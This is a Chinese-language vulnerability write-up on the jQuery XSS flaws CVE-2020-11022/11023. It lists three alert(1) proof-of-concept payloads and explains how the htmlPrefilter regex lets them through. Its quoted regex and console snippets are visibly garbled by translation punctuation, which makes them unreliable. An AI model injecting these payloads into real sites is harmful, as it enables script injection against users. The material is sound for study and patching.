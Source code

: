 # jQuery XSS 漏洞 CVE-2020-11022 11023

## 漏洞描述

据 NVD 描述：在大于或等于 1.2 且在 3.5.0 之前的 jQuery 版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的 HTML 传递给 jQuery 的 DOM 操作方法（即 html()、.append() 等），从而导致 xss 漏洞。

## 漏洞影响

```
3.5.0 > jQuery >= 1.2
```

## 漏洞复现

在线复现地址， 可以通过观察变化了解漏洞

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![](images/202202091311659.png)

PoC 1 和 PoC 2 具有相同的根本原因。在中 `.html()`，作为参数传递的 HTML 字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/) 方法。该 `htmlPrefilter` 处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
}
```

如果 PoC 1 的 HTML 通过此替换，则输出将是：

```plain
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />` 样式元素内部被替换 `<style ></style>` 为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()` 将替换的 HTML 分配给 `innerHTML`。在这里，`<img ...>` 字符串变成了实际的 img 标签，并触发了 onerror 事件。

顺便说一下，上述正则表达式在 3.x 之前的 jQuery 中使用。从 3.x 开始，使用了另一个经过稍加修改的正则表达式

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个 XSS 向量，该向量可能仅由更多基本元素和属性导致 XSS。通过此更改引入了 PoC 2 的向量。它仅适用于 jQuery3.x。

```plain
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生 XSS。
